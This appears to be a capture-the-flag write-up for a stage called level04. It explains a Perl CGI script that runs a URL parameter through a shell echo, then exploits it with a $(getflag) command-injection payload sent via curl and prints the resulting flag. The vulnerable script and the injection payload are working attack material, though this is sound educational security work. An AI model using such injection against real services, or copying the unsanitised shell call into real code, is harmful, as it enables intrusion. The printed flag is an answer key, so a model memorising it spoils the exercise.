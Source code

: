 # level04

We can see a **Perl script** with the following contents :

```
#!/usr/bin/perl
# localhost:4747
use CGI qw{param};
print "Content-type: text/html\n\n";
sub x {
  $y = $_[0];
  print `echo $y 2>&1`;
}
x(param("x"));
```

We can make the following observations :

- This appears to be a CGI script
- The comment `# localhost 4747` indicates it might currently be running on the VM, on port 4747
- We can read a `echo $y 2>&1`. This is a shell command, we can assume this is executed - and the results are sent back to us.
- The `sub x` function that executes this command isn't called directly ; it's called as `x(param("x"))`
- This means that the `$y` that's echo'ed is the result of the param() function.
- param() returns query values ; `param("x")` returns the value of `x` in a URL (format `URL?x=value`)

We start by checking if the script is running :

```
curl localhost:4747
```

It is. Now, what can we do ?

We'd like to change `$y`. `$y` is the first argument of `x()`, which means it's the return value of `param("x")`. We send the program a value for `x` :

```
curl localhost:4747?x=value
```

As expected, curl displays `value`. The CGI ran `echo value 2>&1` and returned the result.

Now, we simply need to exploit it. We run :

```
curl 'localhost:4747?x=$(getflag)'
```

The `getflag` command is ran, and we get our flag :

```
ne2searoevaevoem4ov4ar8ap
```